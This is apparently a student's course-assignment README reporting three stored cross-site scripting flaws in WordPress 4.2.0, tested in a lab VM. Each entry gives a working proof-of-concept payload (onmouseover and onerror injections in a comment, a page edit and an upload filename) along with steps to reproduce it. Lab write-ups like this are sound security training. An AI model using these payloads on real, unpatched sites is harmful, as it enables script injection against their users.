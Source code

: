 # codepath-course
Assignment submission repository for Facebook Codepath course

# Project 7 - WordPress Pentesting

Time spent: **3** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: Unauthenticated Stored Cross-Site Scripting (XSS) #7945
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version:
4.2.0
    - Fixed in version: 
4.2.1
  - [ ] GIF Walkthrough: ![](unauth_stored_xss.gif)
  - [ ] Steps to recreate: 
    Craft a comment containing the following:
    ```html
    <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    ```
  - [ ] Affected source code:
    - MySQL database truncates text fields longer than 64kB
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. (Required) Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting (XSS) #8111
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version:
    4.2.0
    - Fixed in version:
    4.2.3
  - [ ] GIF Walkthrough: ![](stored_xss.gif)
  - [ ] Steps to recreate: 
    As a page editor, edit the text with to include the following HTML:
    ```html
    <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
    ```
    Navigate to the page and mouseover the link. The script in the link will be executed.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. (Required) Vulnerability Name or ID: Large File Upload Error XSS #8819
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version:
    4.2.0
    - Fixed in version: 
    4.2.15
  - [ ] GIF Walkthrough: ![](big_file_xss.gif)
  - [ ] Steps to recreate:  
    Create a file larger than the website allows for storage (default is 20MB)  
    Rename it to include script in the filename: `Dinosaurs secret life<img src=x onerror=alert(1)>.png`  
    Upload the file at `http://wpdistillery.vm/wp-admin/media-new.php` by dragging and dropping it.  
    Script executes when the page errors with `... exceeds the maximum upload size for this site.`  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/js/plupload/handlers.js)
    
## Assets

Custom crafted file `Dinosaurs secret<img src=x onerror=alert(1)>.png`

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Spencer Callicott

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
